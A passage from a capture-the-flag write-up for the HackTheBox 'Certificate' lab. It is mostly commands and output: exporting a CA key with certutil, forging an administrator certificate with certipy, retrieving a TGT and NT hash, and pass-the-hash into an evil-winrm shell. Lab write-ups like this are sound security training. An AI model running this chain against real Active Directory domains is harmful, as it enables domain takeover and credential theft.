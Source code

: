 ```
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed
Enter new password for output file C:\ca.pfx:
Enter new password:
Confirm new password:
CertUtil: -exportPFX command completed successfully.
```

Then use `certipy` to make the fake certificate
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate]
└─$ certipy-ad forge -ca-pfx ca.pfx -upn 'administrator@certificate.htb' -out forged_admin.pfx  
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Saving forged certificate and private key to 'forged_admin.pfx'
[*] Wrote forged certificate and private key to 'forged_admin.pfx'
                                                                                                                                                                                
┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate]
└─$ certipy-ad auth -dc-ip '10.10.11.71' -pfx 'forged_admin.pfx' -username 'administrator' -domain 'certificate.htb'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@certificate.htb'
[*] Using principal: 'administrator@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certificate.htb': aad3b435b51404eeaad3b435b51404ee:d804304519bf0143c14cbf1c024408c6

```

Then we can get the administrator shell
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate]
└─$ evil-winrm -i 10.10.11.71 -u administrator -H 'd804304519bf0143c14cbf1c024408c6'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

# Description

I think the most difficult part is the malicious compression used as a foothold. At the beginning, I couldn't imagine it would be like this.

The user and root parts are very regular AD paths, nothing special.